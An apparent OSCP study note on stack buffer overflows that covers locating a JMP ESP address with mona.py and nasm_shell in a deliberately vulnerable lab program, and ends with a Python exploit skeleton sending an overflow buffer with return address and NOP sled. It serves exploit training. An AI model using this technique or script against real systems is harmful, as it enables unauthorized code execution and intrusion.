 # 5. Finding a Jump Point
## 5.1 Meanning 
- Find a part of the program without protections (ex: DLL)  
  
 ## 5.2 Using Mona module 
 It is very important to specified all bad chars found before
  - !mona jmp -r esp -cpb "\x00"

## 5.3 OSCP Methodology
### Prepare Immunity Debugger :
* [https://github.com/corelan/mona](https://github.com/corelan/mona)  
Download and push the “mona.py” file inside:  
* C:\\Program Files (x86)\\Immunity Inc\\Immunity Debugger\\PyCommands  
  
We can now restart Immunity debugger  
  
### Getting all the “vulnserver” modules from immunity thanks to "mona.py"
Inside immunity debugger run:  
* !mona modules

![[Finding Modules.png]]


### Find the hexa representation of JMP ESP
On Kali Linux:  
* /usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb  
JMP ESP (FFE4)

![[Find JMP ESP.png]]

### Find a JMP ESP inside the vulnerable program 
Back in immunity  
* !mona find -s "\\xff\\xe4" -m essfunc.dll

![[Finding JMP ESP Immunity.png]]

 
## 5.4 Example of Python3 code 
```python
#!/usr/bin/python3

import socket

ip = "10.10.2.75"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 200
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
